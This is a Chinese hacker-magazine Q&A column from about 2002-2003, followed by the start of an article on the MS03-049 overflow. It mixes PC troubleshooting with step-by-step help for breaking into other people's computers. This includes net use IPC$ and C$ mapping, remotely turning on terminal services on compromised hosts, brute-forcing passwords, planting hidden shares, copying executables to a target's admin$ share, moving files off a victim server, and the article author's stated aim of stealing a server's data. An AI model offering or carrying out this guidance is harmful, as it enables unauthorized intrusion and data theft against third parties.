答：不知道你说的登录具体是指什么，有两种途径可供选择：一种是通过 telnet 进行控制台操作，另一种是通过远程控制软件或 3389 客户端进行图形界面登录。前者要在对方机器上安装 telnet 服务器软件，后者要安装远程控制软件的服务端或开放远程终端服务，然后使用客户端软件进行登录即可。

问：前些天我在小榕的网上下载了 Fluxay4_2915for98 的版本！可是当我解压安装时，系统却提示出错“找不到 .dll 文件—LIBMYSQL.DLL”，我将第三期杂志光盘上的 VB5/VB6 这二个文件释放到 c:\windows\system 文件下，可还是不管用。你能告诉我怎么办吗？还有我能邮购前三期的杂志吗？看上这期后我就爱不释手了~~：）

答：LIBMYSQL.DLL 是一个供其他应用程序调用 MySQL 数据库的接口动态链接库文件，你可以从地址 http://www.mysqltools.com/download/libmysql32344.zip 下载获得。

你直接汇款到杂志社就可以获得前两期的杂志，当然邮购情况也可参考我们 96 页的邮购信息。

问：我找到了朋友的 IP、机器名和开放的端口，可用 TELNET 命令的时候机子总是弹出一个窗口，写什么“TELNET（无）”的，是怎么回事？如果我想进入朋友的机子要怎么做，希望你帮忙~~

答：因为对方没有安装 telnet 服务器软件，自然就无法用 telnet 登录了，建议使用远程控制软件来进行登录，当然前提条件是你必须先在对方机器上安装好远程控制软件的服务端了。

问：我读了贵刊第三期的“教你怎样做代理”，在上机试验时不小心在本机运行了“winshell.exe”，我的系统是 WINXP 的，现在只要开机在进程中就自动运行。“WINSHELL.EXE”用户名是“SYSTEM”，2,500K 大小，结束进程后，下次开机仍自动运行，我该怎么办才能把它删除呀？

答：假如你知道 winshell 的端口和密码的话就很简单了，只需要先用 telnet 登录：`C:\>telnet localhost port`，输入正确的密码，出现 CMD> 后，输入“?”后回车即可看到帮助命令，输入反安装指令即可。若不知道端口和密码的话，就先按 Ctrl+Alt+Del，进入“任务管理器”－“进程”，找到“winshell.exe”并点“结束进程”按钮，然后使用命令 `C:\>dir c:\winshell.exe /a/s` 查找到 winshell.exe，删除之就可以了。

问：我想请问一下：我的操作系统是 WinXP。我用 XP 内置的“远程桌面连接”连接上了远程电脑（用系统管理员登录，对远程文件夹和硬盘都设置了共享），但为何下载不了文件？上传也不行，但可以对文件进行修改和删除。

答：XP 内置的“远程桌面连接”只能远程操控对方的桌面，是不具备在两台机器间传输文件功能的。当然，你可以在对方机器上安装 FTP 服务器软件来实现文件的上传或下载，若对方机器开放有共享目录则更方便了。

问：我的机器是 WINXP 操作系统，是中国电信 163 的宽带用户，但不知道什么原因，我的网络连接上的许多协议给我关掉了，现在 21 啊、139 啊之类的协议都没了，不知道是不是因为这样，我无法在 QQ 里传文件给别人，别人也不能传给我，上传主页也不行了，一些 NetBIOS 命令也用不了了。555555，我试过添加了某些协议，但是还是不行，不知道具体应该找回哪些协议呢，请你们帮帮我，最主要的还是不能接发文件啊

## 采果虫网吧

## 黑客X档案2002-2003年合订本

答：你无法用QQ传文件给别人不是你的原因，是因为你上网是通过中国电信的代理服务器实现的，而QQ本身不支持隐藏在代理服务器后的用户传输文件给别人；因为你关闭了你机器的21端口，别人自然无法登录你的FTP服务器了，你若是用的是微软自带的FTP服务器，可通过命令 `net start msftpsvc` 来启动，否则的话可以安装一套 Serv-U 服务器软件；至于你无法用 netbios 命令，是因为你关闭了139或445端口，可按照以下方法来安装 NetBEUI 协议：在 WINXP 安装光盘下 `VALUEADD\MSFT\NET\NETBEUI` 目录下找到需要的文件。复制 `nbf.sys` 到 `%SYSTEMROOT%\SYSTEM32\DRIVERS\` 目录，复制 `netnbf.inf` 到 `%SYSTEMROOT%\INF\` 目录，打开网络连接属性，单击“安装...”按钮来安装 NetBEUI 协议。注：`%SYSTEMROOT%` 是你安装 XP 的目录名，比如 `C:\WINDOWS`。

问：我在找到开放139端口的机器一台后，得到它的 ADMIN 组用户名，有系统默认的 Administrator，我决定采用暴力破解，但是我的机器是拨号上网速度太慢，想让多台肉鸡分别建立诸如一台用1-999999的数字组成的字典作为密码字典猜测口令，另一台用A-Z的字母组成的字典来猜测，而我的机器则可以不上网，只等到猜测结束后，再上网直接到肉鸡上取得结果？不知道这样的想法能不能实现？如果能实现，具体应该怎样操作？好像流光的新功能能够实现类似的功能，但不知道能不能断线扫描？

答：你可用流光的后台扫描模式来进行。方法为打开“文件”-“高级扫描向导”，设置完成后在“选择流光主机”对话框里选中“后台模式”，扫描开始后无需客户端干预，然后进行扫描即可，此时可以断开连接，以后再次连接即可查看扫描结果。

问：今天我的电脑有点怪，来问问：是运行了你们光盘中的“冰河XP版的客户端”后出问题的，运行后没反应！！！必定是木马！

- 一打开 `*.txt` 文件，就会读软驱！
- 扫描了一下电脑，有如下端口打开：123、135、137、138、139、445、500、1025、1026、1029、1243、1900、4950、5000、6670、12345、30029、31337、54320。有木马吗？如何消除？

答：打开 TXT 文件读软驱的主要原因可能是某些程序修改了系统注册表的 `HKEY_CLASSES_ROOT\txtfile\shell\open\command` 子项，对于 Windows 9x 改回 `%SystemRoot%\system\NOTEPAD.EXE %1` 即可，而对于 Windows NT、2000、XP 要改回为 `%SystemRoot%\system32\NOTEPAD.EXE %1`，此外，有些杀毒等软件会在环境变量 PATH 搜索路径里面增加 `A:\`，则也常会导致读软驱，对于 Windows 9x 修改 `Autoexec.bat` 去掉 `A:\` 即可，对于 Windows NT、2000、XP 则要选择“我的电脑”-“属性”-“高级”-“环境变量”，然后去掉 PATH 中的 `A:\`。

此外，仅仅通过端口很难判断是不是有木马，因为大多数木马程序的端口号都是可以更改的，建议使用最新版本的杀毒软件或木马专杀工具进行查杀。

问：我扫到一台有 ipc$ 的机器，admin 用户名和密码我都知道，用 net use 连接，系统却说发生了1231错误：不能访问网络地址，我用的是 XP Pro 系统，机器在家是共享上网，而且用 nbtstat 命令也无效，请问这是怎么回事儿？

答：微软 Windows 系统错误代码1231的解释是：不能访问网络位置。多数情况表示对方服务器已经终止 IPC 空连接或已经将相关目录删除。

问：怎样对付那些非法代理以及非法用户？我们的计费是按照 MAC 地址收的，他们是盗用合法用户的 IP 地址和 MAC 地址来占用公司资源吗？

答：理论上 MAC 地址是无法重复的，因此非法用户也应该在同一交换环境内。

问：我的机器出了点问题，每次打开文件夹会生成1个 `desktop.ini` 和1个 `Folder.htt` 文件，删后再次点文件夹后又有了，不知道什么原因？是欢乐时光病毒吗？

答：`folder.htt` 和 `desktop.ini` 都是负责文件夹属性的记录文件，并非一定是病毒，在 Win2000/XP 系统中若在文件夹属性里选择了定制文件夹选项的话也会产生很多这两个文件。也有可能中了 VBS/KJ 型病毒，使用最新的杀毒软件查杀或搜索出所有的 `folder.htt` 和 `desktop.ini` 文件并全部删除。依你所描述症状来看十之八九是中了“欢乐时光”病毒。

问：我的A盘不知道我怎么改了设置，现在变成5.25英寸了！以前是3.5英寸，现在不能拷盘了，总是说“没准备好”让我重试！我也不知道怎么改回来！请大虾指教！

答：该问题可能有两种原因，若确认没有更改过任何设置的话，则软驱的电源线或数据线已经松了或掉了，需要重新插紧。还有就是可能被人修改了 BIOS 里的设置，开机时按 DEL 进入 BIOS 设置，进入“Standard CMOS Features”类别，将 Drive A 后的选择项选择为“1.44M, 3.5in”就可以了，此为 Award BIOS，其他 BIOS 也类似。

问：我想知道用终端客户端连上服务器后，如何让对方查不出你的记录，如何隐藏自己创建的用户名呢？连上终端后又如何上传下载东西呢？

答：入侵的痕迹根据各种入侵有很大不同，与网管的安全防护与管理也有很大关系。面对一套实施优秀的安全防护系统，若要对方完全无法查出你的记录，除非 Format 硬盘，无论如何创建用户，总会在计算机管理里看出来，连上终端后无法直接上传下载软件，只能通过打开相应 HTTP 或 FTP 或其他服务上传下载。

问：我想知道在9月份有一篇说 `autorun.inf` 的利用。可我发现做完后，盘符下有“手”这种似乎很容易被人发现，我听说有“隐藏共享”，请问我该怎么办？

答：在共享文件夹的共享名后加一个 `$` 即成为隐藏共享，可以使用“精锐共享终结者”来解决隐藏共享。

问：我在进入一个名字为 `www.qliao.com` 的网站后，IE 的设置给改了（我已经用 IE 恢复专家修改回来），但这个网站成了我机子的管理员，注册表给禁止使用（我用别的软件把注册表里有 qliao 的都删除了）。WINDOWS 窗口的帮助中的“关于”都成了“电影聚餐-经典歌曲 | http://www.qliao.com”，不知道有什么方法能够修改这些设置？

答：最彻底的方法当然是重新安装系统，然后升级成 IE 6.0 SP1 就好了，如果安装 IE 前没装毒霸网关，还会去掉。到 `www.iduba.net` 里下载专杀病毒注册表修复器，直接运行就可以解除注册表锁了。至于 Windows 的帮助，只能在注册表里搜索并删除了。

## 来来电问吧

问：为什么我用 `nbtstat -a ip（对方IP）` 查询对方的时候看不到对方信息，只显示：

`\\Device\\NetBT_Tcpip_{E7B0C4A9-4F9E-4A8D-97CC-015C97E9B7E2}`

`Node IpAddress: [202.106.33.170] Scope Id: []`

`Host not found`

答：对方已经关闭了 IPC 空连接的补丁或删除了相关目录。

问：请问一台开放 ipc$ 空连接的 XP，当我用 admin 的权限去连接时，能成功，可我映射他的 c$ 等时，却提示一个用户不能用一个以上的用户名去连接，请问怎样解决？如何去映射一台 XP 的默认共享？

答：不清楚你具体的操作过程，一般来说对于 Windows NT、2000 和 XP 系统默认安装的情况下，按照下面的步骤进行操作是不会出错的：

- `(1) net use \\xxx.xxx.xxx.xxx\ipc$ password /user:administrator`
- `(2) net use * \\xxx.xxx.xxx.xxx\c$`

若在这之前曾经使用 `net use` 成功连接过，建议先用 `net use * /del` 清除以前的，再按照上面步骤进行操作。

问：我最近连续买了两期你们的杂志感觉很好，但是现在我有个问题想请教一下，我用自己的两台机器做测试，敲入 `net use \\ip\IPC$ password /user:user` 回车，显示 `the command completed successfully`，然后我接着敲入 `net use z: \\ip\C$`，这时会显示 `system error 67 has occurred` `the network name cannot be found`，请问是什么原因？

答：连接 IPC$ 成功说明被连接机器的 IPC$ 共享是开放的，找不到网络名说明对方的 C$ 共享没有开放。一般来说，对于 NT/2000 系统，系统默认会打开 IPC$、ADMIN$、C$、D$ 等隐含共享资源，其中 IPC$ 用于远程管理，ADMIN$ 对应 Windows NT 和 2000 的系统安装目录，如：`C:\WINNT`，C$ 和 D$ 则分别对应相应的磁盘用于远程共享访问。造成你遇到的问题的原因有三种可能性：

- `(1)` 被连接的机器去掉了默认的共享 C$，主要是对注册表做了以下处理：

`[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters]`

下建立一个 DWORD（双字节）类型数据：

对于 Windows NT Server 或 2000 Server 是 `AutoShareServer=0`，对于 Windows NT Workstation 或 2000 Professional 是 `AutoShareWks=0`。

- `(2)` 被连接的机器被手工删除了共享 C$，重新启动机器后会再次被共享，应该就能够连接成功。手工删除 C$ 共享的方法为：`net use C$ /del`
- `(3)` NETBIOS 协议工作不正常，请重新安装，方法为在网卡的属性里面卸载或添加。

问：我是一黑客爱好者，当然更是一个大菜鸟，但幸运的是发现了贵刊。于是要在机房作一些试验（我是一名大学生，机房的环境当然比网吧“安全”多啦）。在一次试验中，遇到了一些困难，请您指教：

第6期的“Windows 2000 入侵实战纪实”我扫描到用户名 administrator、口令空，当我试着连接时出现下面错误：

```text
C:\>SWTS\RemoteNC>RemoteNC 192.168.11.252 administrator
"" runasuser "remotenc" "provide local cmd redirection" 99 123456
================ RemoteNC Beta 2, Written by Assassin 2001 ================
http://www.netXeyes.com http://www.netXeyes.org
[Install Service as RunasUser Mode]
Connecting 192.168.11.252 ..... Done.
Transfer File ..... Existed, Ignore, Done.
Start Service ..... 1069Failed.
```

好几次都这样，出现上面的原因是什么啊？（当口令为空时，引号是 `""` 还是 `''` 啊？）

答：从你提供的信息来看，RemoteNC 已经成功上传了，再次安装的时候自然就会报“文件已经存在”的错误，至于启动服务失败，错误号1069是“由于登录失败而无法启动服务”的意思，是登录服务失败导致的，建议把 `runasuser` 改为 `localSystem` 再尝试，应该会成功的。口令为空的时候用 `""` 来表达，中间没有空格。

问：在你们第6期里面的“内部网络的入侵”文章中，为什么连接有漏洞的机器，nc 显示拒绝连接啊？或者显示第一个命令成功，而第二个命令发出后就显示拒绝连接啦？

答：NC 显示拒绝连接说明使用“Snake IIS 溢出工具”没有成功，也许对方做了处理或打了补丁程序；显示第一个命令成功说明溢出是成功的，而第二个命令发出后就老拒绝，说明对方的 IIS 已被炸停了，这应该是第一次溢出造成了 IIS 的崩溃，只有等 IIS 重新启动或者系统重新启动后再次溢出了。

问：我用“冰河”搜索的 IP 怎么有很多没用，只有几个有用，为什么？请你帮帮我。

答：只有安装过了冰河服务端的机器的 IP 才可能有用，相对于所有网络上的主机来说，安装了冰河服务端的主机自然很少了，并且由于系统网络问题或程序 Bug 等原因，可能有时安装了冰河服务端的机器也会出现连接不成功的情况；当然有的还需要输入管理密码才可以。

问：我有一台知道帐号的 WIN2000 肉鸡（最高权限），请问如何给它远程开终端服务（就是3389那个）？还有，请问用 WIN2000 能不能入侵 UNIX 或 LINUX 系统？

答：打开对方远程终端服务的前提是对方安装了该服务，若安装了却没有开放的话，说明对方的服务处于“手动”或“已禁用”状态，需要通过修改对方的注册表把“禁用”修改为“自动”，然后重新启动对方的机器即可。方法如下：

- `(1) net use \\xxx.xxx.xxx.xxx\ipc$ password /user:administrator`
- `(2)` 在本机上，“开始”->“运行”->`regedit`，在“注册表”下拉菜单中选择“连接网络注册表”，在“计算机名”中输入 `\\xxx.xxx.xxx.xxx` 选择后进入了远程主机注册表，找到下面的位置：

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService`，改动 `Start=2`。若下面的位置：

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp`

中的 `fEnableWinStation` 值为 0 就把它改为 1。然后重新启动对方的机器即可，启动机器的方法可用远程管理工具或是微软 Resource Kit 中的 `shutdown` 等。

至于能不能用 WIN2000 机器进入 UNIX 或 LINUX，回答是肯定的，经常用到的一个工具就是 TELNET。

问：近日我用流光扫描自己的机子，发现有 `UserName: root (Admin) Password: [空]` 致命的漏洞，`UserName: wwwadmin (Admin) Password: [空]` 致命的漏洞。请问用什么方法可以避免漏洞？还有我不知道有没有人进了我的机子得到了最高权限，有没有木马放在我的电脑上，请问怎么查？

另外扫描100-1024端口时发现135、139、445端口开放，有危害吗？如果还有另外的端口开着，怎样才能关闭？

本机上用 CMD 的 `NET USER` 命令发现有 `HELPASSISTANT` 和 `SUPPORT_388945A0`，那两个是什么？怎样防止别人通过 IPC$ 入侵？

（补充：本人按照流光报告修改注册表）

- `1、禁止建立空连接`
- `[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA]`
- `RestrictAnonymous = DWORD:00000001`
- `2、禁止管理共享`
- `[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters]`
- `AutoShareServer = DWORD:00000000`

修改后仍有以上结果。

答：从扫描结果来看，你机器的口令为空，按照漏洞分类来说属于弱口令类。当然由于你的机器开放有139和445等端口，存在泄漏系统信息的问题，所以你若不使用网上邻居、共享文件和打印机的话，建议把这些端口关闭。当然，你以上所说的修改注册表方法仅仅是为了防止建立空会话连接和禁止 C$、D$ 等默认共享，但事实上，由于系统存在缺陷，仅仅通过修改 `RestrictAnonymous` 的值为1并不能阻止建立空连接，这可以由 SecurityFriday（网址为：http://www.securityfriday.com）公司的 GetAcct 工具来证明。因此，为安全起见，建议把139和445端口关闭，关闭139的方法为把网卡绑定的 TCP/IP 属性里的 WINS 选项中“通过TCP/IP实现 NetBIOS”的功能禁用，关闭445端口的方法为卸载网卡绑定的文件和打印机共享服务。至于你说的 `HELPASSISTANT` 和 `SUPPORT_388945A0` 用户，都是 Windows XP 系统安装时自带的帐号，前者是提供远程协助的帐号，后者是帮助和支持服务的提供商帐号，对于前者若你不提供远程桌面给别人用的话，建议禁用它，后者则很少用到，直接禁用就可以了，禁用方法为打开“计算机管理”，找到用户的属性，选中“帐号已停用”即可。

问：我最近用 `PSU.EXE` 在肉鸡上克隆管理员帐号很好用的，克隆了好几个，可今天我打算再克隆一只鸡，我用 PSU 时对方提示我注册表编辑器被管理员禁用了。我傻了，不知该怎么办。就想起了你们。我该如何才能使注册表编辑器解禁？

答：你可以用下面的方法解除对注册表编辑器的禁用：

建立文件 `enableregedit.reg`，内容如下：

```reg
REGEDIT4

[HKEY_USERS\.DEFAULT\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

然后在桌面上双击该文件，然后选择添加，或者是在 DOS 窗口中运行 `regedit /s enableregedit.reg` 即可，当然你也可以通过改上面的值为1并添加到注册表中，达到禁用注册表编辑器的目的。

问：我在使用 TRW2000 时，当按下 `Ctrl+N` 时屏幕中央显示“TRW2000 Expired!”。点下 OK 后退出程序，请问如何解决？

答：这表示你使用的 TRW2000 已经过了共享期了，它是一个需要注册的软件。

问：我装的是 Windows XP Pro 系统，一次我下载了一个共享软件；本来这是让别人共享的，自己运行了。于是我的全部盘都共享了！软件名《WINSHARE》，名字叫做盘共享器，我打开控制面板，管理工具里的计算机管理，打开共享，看到了 C、D、E、F、G，还有 ADMIN、IPC 也共享了！其中 C、D、E、F 盘是默认共享，其他两个是远程共享，我在注册表里找不到那些相应的项目，我是看了书后找的，但是那是在 Win98 下面的，不知道在 XP 里应该找哪一项呢？

答：2000/XP 系统中各硬盘和 ADMIN、IPC 都是默认共享的，你需要我们解决的问题并没说明，如果你要取消共享，可以下载“精选共享终结者”来解决。

问：我用了你们杂志上的光盘后，KV3000 报告说病毒，吓得我急忙把光盘拿出来，你们怎么会有病毒放上去呢，困惑中？

答：杀毒软件查出的所谓的病毒，是用来给读者作试验之用的黑客程序，它们本身并不是病毒，这些程序大致可以分为黑客攻击程序、木马程序、后门程序、E-Mail 破解程序、黑客扫描工具等几大类。除了木马和后门程序会因为使用不当而造成危险之外，其他都可以放心使用。同时，光盘上的黑客程序前面都标有 `*` 号，以提醒读者谨慎使用，同时切记不得用于非法用途，否则一切后果自负。

问：我用的是冰河，我原来是用163拨号上网的，那时用冰河远程控制很好，很舒服，现在我搬了新家，小区配套的是铁通的专线（ADSL），看我自己的 IP 知道是铁通内部的专线宽带，可是，我现在再用冰河就不行了，总是连接到了远程计算机（别人的），冰河说完成了，接收成功，可是什么也看不到，我不知道是什么原因，试了100次，都是一样，难道用铁通的宽带就不可以再远程控制了？还是铁通内部网络有特定的防火墙？我怎么就是不能接收到别人的东西了呢？如果是这样，不知道您有什么好的建议和办法？

答：冰河需要合法的 IP 来接受回送文件；你用的 ADSL 可能是通过 NAT 出去的，自己没有合法 IP，自然无法接收。

问：为什么我用网络刺客Ⅰ时总是映射失败呢？

答：对方的共享文件夹可能被设置成特定用户访问或对方禁用了 Guest 用户。

问：我是个菜鸟。我不知道什么叫 ping 命令？

答：Ping（Packet Internet Groper）很可能是你最常用的工具之一。它通过发送一个 ICMP（Internet Control Message Protocol）ECHO 包到网上的一台主机并随后监听返回的 ECHO REPLY 包来检查本地主机与该机的网络连接状况。返回的 ECHO REPLY 包的特征值可以是以下集合中的某一个值：0=正常 echo reply，3=目标主机不可到达，11=TTL 超时。你可以在《黑客X档案》前几期的介绍中详细地查到。

问：我是X档案的读者，我想问一下，怎么才能邮购呢？

答：杂志社上个月收到了很多咨询关于邮购的邮件，虽然以前就说过邮购的问题了，但我还是在这里统一回答一下吧。目前你看到的这期是我们《黑客X档案》从创刊到现在的第7期，即你可购买1至7期。再补充一个问题，很多读者来信问，为什么他们邮购的书中少了一本傻瓜黑客系列之二《黑客兵器谱》，其实问题是这样的：由于《黑客兵器谱》10月23号才在全国上市的，而之前汇款来一起购买《黑客兵器谱》以及其他杂志图书的读者，发行部的工作人员就先把已经出的图书杂志给邮寄了，而《黑客兵器谱》自然等上市后才能补寄了，现在补寄工作已经完成，搞邮购的读者注意查收。

## 黑客X档案2002－2003年合订本

## 来来虫问吧

体啊购地址请大家留意96页啊购公告栏中的详细说明，最后要提醒你的就是一定要详细填写你的收信地址。

问：我意外之中发现贵刊（第6期），真有相见恨晚之意，我觉得比较易懂。希望以后多有这类文章。另外，我有一个问题想请教你，我通过修改注册表，隐藏了我的驱动器，但又通过修改注册表没法显示，我觉得好麻烦，所以只要开始／运行一个命令就可以把隐藏的驱动器揪出来，但我不知道是哪条，希望daidaichong能给我回信哦！祝你快乐！

答：首先建立一个文件：`c:\unhide.reg`，内容如下：

```text
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer]
"NoDrives"=dword:00000000
```

然后“开始”→“运行”→`regedit /s unhide.reg`即可。

问：我是一个菜鸟，又很喜欢下载黑客软件这种东西。由于在一个不知名的夜晚，下载了好多东西，一时忘了哪个对哪个，不小心打开了某一个，结果开机就会出现：

```text
starting windows98

the following file is missing or corrupted: command.com
Type the name of the command
interpreter(e.g. c:\windows\command.com)

c>
```

现在快救我~~~~~

答：这主要是你C盘上的`command.com`文件被破坏或被删除造成的，你找一张Win98的启动盘或用可启动的Win98光盘引导系统，然后把盘上的`command.com`覆盖C盘上的`command.com`，重新启动系统即可恢复正常。

问：我在贵刊本年度第七期上看到一篇文章《论小区宽带中的MAC地址盗用》，有几点不清楚的地方，希望可以得到解答。

我是普通的网络用户，是用猫上网的，不知道用猫可以接到小区的宽带中吗？离我家很近有两个小区有宽带。我曾经询问过ADSL的费用，有些贵，我想知道是否可以用猫或其它的办法使普通用户接到小区的宽带中去。因为我看那篇文章中好像写的是作者就是在小区中吧，所以接入小区宽带应该是可以的。还有文章中提到的SuperScan是Windows中的自带程序还是别的软件啊？

答：目前小区宽带网主要有三种接入方式来实现：一种是非对称线路ADSL接入方式，一种是FTTx+LAN（光纤＋局域网）以太网接入方式，再一种是有线电视网Cable Modem接入方式，目前国内用得最多的是前两种。所以，你的猫（Modem）不能够直接接入宽带网，但若在宽带网用户的家中设置Modem池的话，则你即可拨号到他家，自然也就可以间接进入宽带网中了，但购买Modem池和相关设备的费用是非常高昂的。SuperScan是一款免费的端口扫描软件，你可以从开发者的网站http://www.foundstone.com/knowledge/proddesc/superscan.html下载，是英文版的，需要中文版的话可以在国内一些站点找到，本期光盘中也有收录。

问：我在使用冰河2000扫描时，能扫描到一些可用的主机，但问题来了，我一点文件管理器里的主机时便提示：

- 1. 无法与主机建立连接
- 2. 命令发送完毕
- 3. 在命令控制台里点击捕获屏幕，出现正在接收数据……然后就是：

等你等到我心痛，等等等等……我曾经等过一个多小时的，但依然没有什么反应！！总之我是什么都没干成！

答：这主要是你的连接密码不正确或者是对方安装有个人防火墙等访问控制类软件造成的，也有可能是你或对方的网络质量太差导致的，可多换些机器测试。

问：你好呀，呆呆虫。我是贵栏目忠实读者，我现在有问题想请教您！

我用X-scan v2.2扫描，现在发现一个服务器总开放着端口1、80、5000、7000、135、139、445、8080，我用NET命令连接总提示要密码，我该怎么办呢……谢谢！

答：提示要密码说明对方不允许任何人都可访问，若要进去的话，可尝试用流光或LETMEIN等软件进行暴力破解，幸运的话你就可以破解出密码，自然也就可以进去了。

问：聊天室如何知道对方的IP？

答：这问题要分情况对待，一种是能够控制聊天室服务器，然后安装监听程序，自然就可查到所有人的IP了，但难度比较大；另外一种就是迫使对方访问自己机器的资源，比如先在自己的机器上安装一个WEB服务器，然后向聊天室发送`http://自己的IP/aaa.gif`，则凡是能够偷看的话，你的IP都会被你的WEB服务器记录下来，查看一下就行了，但这种情况下只对支持HTML的聊天室有效。

问：如何让一台电脑上的C盘共享而又不出现共享标志（就是那个手啊）？

答：建立文件`sharec.reg`导入到对方的注册表中，文件内容如下：

```text
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Network\LanMan\SHARES]
"Flags"=dword:00000302
"Type"=dword:00000000
"Path"="C:\\"
"Parm2enc"=hex:
"Parm1enc"=hex:
"Remark"=""
```

则对方的C:盘被共享为SHAREC$，但对方却看不出来被共享了。上面的方法通过手工也可操作，但需要注意flags处的值302为十六进制。

问：能不能告诉我几个不需要身份验证的SMTP服务器？

答：目前大多数邮件服务器为了反垃圾邮件，都需要身份验证了，但你若需要发信，而又没有SMTP服务器的话，则可通过FoxMail的“特快专递”来实现，当然也可以自己设定来发送，主要是要先查出对方的MX记录。以发送到`xxx@263.net`为例说明如下：

```text
c:\>nslookup
Default Server:  ns.fhnet.cn.net
Address:  202.99.8.1

> set type=mx
> 263.net
Server:  ns.fhnet.cn.net
Address:  202.99.8.1

Non-authoritative answer:

263.net MX preference = 40, mail exchanger = mx03.263.net
263.net MX preference = 10, mail exchanger = mx01.263.net
263.net MX preference = 10, mail exchanger = mx06.263.net
263.net nameserver = nsb.capital-online.com.cn
263.net nameserver = ns.capital-online.com.cn
mx01.263.net internet address = 211.150.96.21
mx06.263.net internet address = 211.150.96.26
mx03.263.net internet address = 211.150.96.23
```

则发信到`xxx@263.net`的时候，设定你的SMTP服务器为`mx03.263.net`或`mx01.263.net`或`mx06.263.net`就不需要验证身份了。

问：我用Superscan 3.0扫到一些开放139端口的机子，可用`nbtstat -a ip`却提示：`host not found`，这是为什么？用`ping ip`可以ping到。

答：这说明当你执行指令的时候对方的139端口关闭了，或对方对139端口的访问做了限制。

问：1. 是不是开了139端口的机器都存在139漏洞？或者说139端口本来就是个漏洞？是不是开了139端口的2000才有人侵的可能，而9X就算开了此端口也没什么用？
2. IPC$有什么工具能（暴力）破解吗？

答：1. 严格地说139并不应该算是一个漏洞，开启NETBIOS服务时一般139也就会随着打开，它就像3389一样，本身并不存在漏洞，它只可以利用计算机里的小BUG，像3389就是结合了2000的输入法漏洞，而139呢？应该是利用了Windows共享文件夹密码校验漏洞。

2. IPC暴力破解密码可以用小榕的流光，在IPC主机中加入你的目标IP，挂上一个好字典慢慢等就可以了，不过一个出色的网管的密码一般是不会被流光轻易破解出来的。

问：我用3389终端控制到了一台计算机，可是我不知道怎样上传和下载文件。我实在是很菜，请回答我。

答：介绍你个好方法，如果对方的80端口打开，你可以偷偷把你想要DOWN的文件放到这个子目录下，然后在你自己的浏览器上直接输入`http://xxx.xxx.xxx.xxx/123.zip`这个下载（123.zip就是你要下的文件）。当然还有一个更简单的方法，如果你要上传下载的文件并不大的话，可以用你自己的信箱试试，在对方的IE下进自己的信箱，然后嘛……

问：在《黑客X档案》第8期的附属小册子《个人服务器安全攻略》里，最后有一篇关于恶意代码的文章，我以前遇到过，那时不知所措，只好格式盘。现在尝试，但出现了点小问题，就是删除C盘的隐藏文件后，再开机会显示“注册表错误”，说“无法输入C盘下那个文件，文件打开出错，可能是磁盘或文件系统错误。”呆呆哥，怎么能让这个对话框开机时不再出现？

答：直接删除那个隐藏文件当然是不够的，还要将它从注册表中清走才可以，地址是：`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` 下的`win.dll`。

问：每次当我使用邮箱时，输完用户名后密码都会自动出现，我想请问是不是Windows记下了我的密码，这样会不会有密码被偷的危险，如果有，即我该怎么把它删掉？

答：如果你的计算机只是你一个人在使用，这样保存密码倒是很方便的，要是在网吧或是公共场所那就很危险了。要想删除所保留的密码，你可以IE的“工具”->“Internet选项”->“内容”->“自动完成”->“清除密码”来删除你计算机中所保留的密码。

问：1. 我用Netscan扫描到有3389漏洞的主机，能用Netscan进入图形控制，我能不能不用其它软件，而从DOS里面进入？如果能，怎么进呀？

2. 3389漏洞能被WIN2000利用，在XP里面服务端在哪里？

答：1. 好像现在没有什么办法能在DOS下直接用图形界面通过3389控制对方。其实你的计算机要是XP的话，完全可以不用第三方软件来进行3389的连接，因为在Windows的附件->通讯中已经为我们提供了这个功能。

2. 对于XP当然也可以用3389来控制，只是因为XP不存在输入法漏洞。

问：我在“黑兵”上看到“朔雪”软件，我尝试一下，但当我在WIN2000下使用，当我单击“运行”下的“提交测试”时，它提示“当尝试到Collect表单元素时错误发生”，这是什么原因？

答：你的朔雪提示“当尝试到Collect表单元素时错误发生”，可能是由于你没有正确地勾选好Element造成的，也可能是你没有正确地使用朔雪。对于朔雪的使用方法，本期光盘中收录了一个很详细的图片加文字的说明（2003年1期）。

问：1. 捆绑`cmd.exe /c;\winnt\system32`成功将对方主机IIS idq溢出后，我进入对方主机，并建立了管理员身份，但是不能建立ipc$连接，能否有其他办法映射对方的硬盘？此时可以上传文件到对方主机吗，命令是什么？
2. 在命令提示符下从ftp上面上传和下载的命令是什么？
3. 我以`http://www.xxxxxxxx.com/images/member/`打开对方主机，对方只开放80端口和22端口，如何实施入侵？22端口是什么端口？

答：1. 不能建立IPC$连接的话，有可能是对方没有打开IPC$，可以通过`net share ipc$`命令打开IPC$共享。

2. 在命令提示符下上传文件的命令应该是`copy c:\server.exe \\xx.xx.xx.xx\admin$\system32`，再`copy \\xx.xx.xx.xx\admin$\system32\server.exe c:\`

3. 对于你说的入侵，仅仅知道80和22是没有用的，因为没有任何一个人可以说自己的入侵方法对所有的主机都适用。至于22端口，SSH通常工作在22端口。

## Workstation服务中的缓冲区溢出

微软11月中旬又发出安全公告了，在短短的几周内各路牛人也纷纷制作出了攻击程序。正好前几天看中了一个服务器里面的大量资料，但由于没有登录密码，一直垂涎三尺，欲求不得。现在牛人们纷纷放出了攻击程序的源代码，正好既可以用来测试一下，没准也可以得到想得到的东西。好了废话不多说，下面来看看微软对这个漏洞的介绍吧！

### 一、漏洞介绍

微软11月12日发布了代号为MS03-049的新漏洞，受影响系统如下：

- Microsoft Windows 2000 Service Pack 2、Service Pack 3、Service Pack 4
- Microsoft Windows XP、Microsoft Windows XP Service Pack 1
- Microsoft Windows XP 64-Bit Edition

